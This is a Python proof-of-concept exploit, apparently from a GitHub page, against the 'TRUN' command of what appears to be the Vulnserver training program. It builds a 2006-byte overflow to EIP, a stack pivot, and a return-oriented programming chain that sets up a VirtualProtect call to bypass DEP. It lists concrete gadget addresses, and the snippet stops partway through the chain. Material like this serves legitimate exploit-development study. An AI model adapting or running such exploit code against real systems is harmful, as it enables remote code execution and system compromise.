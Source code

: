 Updated POC:

```python
import struct
import sys
import os
import socket

# Vulnerable command
command = "TRUN ."

# 2006 byte offset to EIP
crash = "\x41" * 2006

# Stack Pivot (returning to the stack without a jmp/call)
crash += struct.pack('<L', 0x62501022)    # ret essfunc.dll

# Beginning of ROP chain

# Saving ESP into ECX and EAX
rop = struct.pack('<L', 0x77bf58d2)  # 0x77bf58d2: push esp ; pop ecx ; ret  ;  (1 found)
rop += struct.pack('<L', 0x77e4a5e6) # 0x77e4a5e6: mov eax, ecx ; ret  ;  (1 found)

# Jump over parameters
rop += struct.pack('<L', 0x6ff821d5) # 0x6ff821d5: add esp, 0x1C ; ret  ;  (1 found)

# Calling VirtualProtect with parameters
parameters = struct.pack('<L', 0x77e22e15)    # kernel32.VirtualProtect()
parameters += struct.pack('<L', 0x4c4c4c4c)    # return address (address of shellcode, or where to jump after VirtualProtect call. Not officially apart of the "parameters"
parameters += struct.pack('<L', 0x45454545)    # lpAddress
parameters += struct.pack('<L', 0x03030303)    # size of shellcode
parameters += struct.pack('<L', 0x54545454)    # flNewProtect
parameters += struct.pack('<L', 0x62506060)    # pOldProtect (any writeable address)

# Padding to reach gadgets
padding = "\x90" * 4

# add esp, 0x1C + ret will land here
# Increase ECX C bytes (ECX right now contains old ESP) to equal address of the VirtualProtect return address place holder
# (no pointers have been created yet)
rop2 = struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)

# Move ECX into EDX, and increase it 4 bytes to reach location of VirtualProtect lpAddress parameter
# (no pointers have been created yet. Just preparation)
# Now ECX contains the address of the VirtualProtect return address
# Now EDX (after the inc edx instructions), contains the address of the VirtualProtect lpAddress location
rop2 += struct.pack ('<L', 0x6ffb6162)  # 0x6ffb6162: mov edx, ecx ; pop ebp ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x50505050)  # padding to compensate for pop ebp in the above ROP gadget
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
```